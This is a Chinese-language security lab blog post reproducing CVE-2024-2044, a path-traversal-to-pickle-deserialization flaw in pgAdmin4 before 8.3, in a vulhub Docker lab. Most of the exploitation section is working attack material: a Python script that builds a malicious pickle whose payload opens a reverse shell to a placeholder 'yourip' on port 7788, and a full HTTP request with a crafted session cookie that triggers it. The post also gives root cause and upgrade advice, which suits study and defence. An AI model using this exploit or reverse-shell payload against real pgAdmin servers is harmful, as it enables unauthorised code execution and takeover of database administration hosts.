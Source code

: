 #  『漏洞复现』pgAdmin4 < 8.3 (CVE-2024-2044) 反序列化漏洞   
goout  宸极实验室   2025-03-04 09:00  
  
**点击蓝字**  
  
  
  
**关注我们**  
  
> 日期：2025年03月04日  
> 作者：goout  
> 介绍：pgAdmin4 < 8.3 (CVE-2024-2044) 反序列化漏洞复现。  
  
## 0x00 影响范围  
  
pgAdmin4 < 8.3  
  
pgAdmin <= 8.3  
 在会话处理代码中反序列化用户会话时受到路径遍历漏洞的影响。如果服务器在 Windows  
 上运行，未经身份验证的攻击者可以加载和反序列化远程 pickle  
 对象并获得代码执行权。如果服务器在 Unix  
 上运行，经过身份验证的攻击者可以上传 pickle  
 对象，对其进行反序列化并获得代码执行权。  
## 0x01 搭建环境  
  
Ubuntu  
 搭建漏洞环境，需经过身份验证后才可触发反序列化造成代码执行。漏洞环境账号：vulhub@example.com  
，密码 vulhub  
。  
```
docker run -itd -p 5050:5050 vulhub/pgAdmin:7.6
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfxgI1L1jyDEn3E0U8OtMJmrQaXsVJo44h4rPanjO7loCEMic2c4nbxdM92icFjSwAicI0btKYG8sXcA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfxgI1L1jyDEn3E0U8OtMJmyPST8hEJbojxibH9MIYeiaCEnIcR6sdNxQuYiaANXtRuD47DY72uKOSibg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfxgI1L1jyDEn3E0U8OtMJm6TP7icclrHUQZ0iaibO91QBFvNhyBb6BdBTVduqDvia3EybaLMveNgD1FA/640?wx_fmt=jpeg&from=appmsg "")  
## 0x02 漏洞利用  
  
vps  
 先监听一个反弹端口：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfxgI1L1jyDEn3E0U8OtMJml4T6ribbOe5xcSQYDIemwPqibib80iayibPe3G445jSbrLfSdGcBZicatCqg/640?wx_fmt=jpeg&from=appmsg "")  
  
python  
 脚本转化文件成 posix.pickle  
 后进行文件上传，替换监听的 ip  
 和端口：  
```
import pickle
import os
import pickletools

class exp():
    def __reduce__(self):
        return (exec, ("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"yourip\",7788));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);",))

if __name__ == '__main__':
    c = exp()
    payload = pickle.dumps(c)
    with open('posix.pickle', 'wb') as f:
        f.write(payload)
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfxgI1L1jyDEn3E0U8OtMJmFBRB58hdFO8r42Ke4TuKGjxFrW5EvsCM63EdabmsmQd7PvEMBR9F7Q/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfxgI1L1jyDEn3E0U8OtMJmgxGM5t8iaXc3icN6A32qfDKfddN6iaCLZxZu9nILT1HOibSZ7alLbzp6qQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfxgI1L1jyDEn3E0U8OtMJmTAD3rCUI3Sn5sYLUmbVrc1wwicsS20Sxw65c84eGPggzCAQgdUAx9eA/640?wx_fmt=jpeg&from=appmsg "")  
  
抓包修改 Cookie  
 ，vulhub@example.com  
 要把 @  
 换成 _  
 :  
```
POST /settings/save_tree_state/ HTTP/1.1
Host: xxx:5050
Content-Length: 2
X-pgA-CSRFToken:
IjE0MGE3MTVmMmIzMDgwYmYwOTJmNGU5ZjUyOWJlNTQ1OTcwZTdhNDki.ZgGgmA.YDRgze
GzIulLQT1YgWn_A7Bv5c
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit
537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 Edg/123.0.0.0
Content-type: application/json
Accept: */*
Origin: http://xxx:5050
Referer: http://xxx:5050
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie:  pga4_session=/var/lib/pgAdmin/storage/vulhub_example.com
posix.pickle!a; pgAdmin_LANGUAGE=en
Connection: close

{}
```  
  
修改完毕后进行发包，无响应即反弹成功：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfxgI1L1jyDEn3E0U8OtMJmtWbZkzgRdGaknT2F4nBvsKeeQth9l0kVZrDd8yAkh0mzCwgiaY0d0Aw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4136w7o9JvfxgI1L1jyDEn3E0U8OtMJmNLppvt2ga7RIpJicAEh6VK76j52En9v3apzy5QTnqw72tLoBaltYr8A/640?wx_fmt=jpeg&from=appmsg "")  
  
## 0x03 总结  
  
漏洞成因有大佬分析的很仔细，pgAdmin4  
 使用基于文件的会话管理方法。会话文件作为 pickle  
 对象保存在磁盘上。当用户执行请求时，会话 Cookie  
 的值 pga4_session  
 用于检索文件，然后反序列化其内容，最后验证其签名。  
  
漏洞分析：  
```
https://www.shielder.com/advisories/pgAdmin-path-traversal_leads_to_unsafe_deserialization_and_rce/
```  
  
漏洞环境下载（版本 <= 8.3  
）：  
```
https://www.postgresql.org/ftp/pgAdmin/pgAdmin4/
```  
  
修复建议：更新版本 > 8.3  
 。  
  
  
**免责声明：本文仅供安全研究与讨论之用，严禁用于非法用途，违者后果自负。**  
  
  
点此亲启  
  
**ABOUT US**  
  
  
  
**宸极实验室**  
隶属山东九州信泰信息科技股份有限公司，致力于网络安全对抗技术研究，是山东省发改委认定的“网络安全对抗关键技术山东省工程研究中心”。团队成员专注于 Web 安全、移动安全、红蓝对抗等领域，善于利用黑客视角发现和解决网络安全问题。  
  
团队自成立以来，圆满完成了多次国家级、省部级重要网络安全保障和攻防演习活动，并积极参加各类网络安全竞赛，屡获殊荣。  
  
对信息安全感兴趣的小伙伴欢迎加入宸极实验室，关注公众号，回复『招聘』，获取联系方式。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/YCOL3hU8ffUqCzyREqVSq3AFOuib0FwZVRlWXWOXsYozHV0XiaYJVGoTian40eVZcGbhUIs9Vltp8YCicncMWEVm9XUSIP0Bj3cA/640?wx_fmt=svg "")  
  
  
